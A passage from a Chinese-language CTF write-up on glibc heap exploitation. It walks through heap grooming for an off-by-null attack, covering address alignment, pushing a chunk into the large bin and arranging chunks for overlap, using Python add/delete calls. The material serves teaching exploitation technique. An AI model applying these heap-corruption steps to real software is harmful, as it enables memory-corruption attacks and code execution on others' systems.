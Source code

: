 由于我们部分覆写的时候会被附加一个 `\x00`，所以需要调整堆地址，为了调试方便，我选择这样调整，具体原因马上说

```python
add(0x2A50,'addralign') # 50
```

然后进行堆布局

首先申请出一个较大的堆块，释放掉，再申请一个更大的堆块，让被释放的堆块进入 large bin

```python
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
```

由于之前进行的堆地址调整，在我的 gdb 中，该 large bin 的低地址的低 16 位就都是 0 了（这也就是之前堆地址调整时那样调整的原因。当然这只是在调试的情况下，实际打的时候只有低 12 位能保证为零，需要爆破 4 位，概率 1/16）。

然后进行这样的布局

```python
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61
```

![](./figure/heap-setup.png)
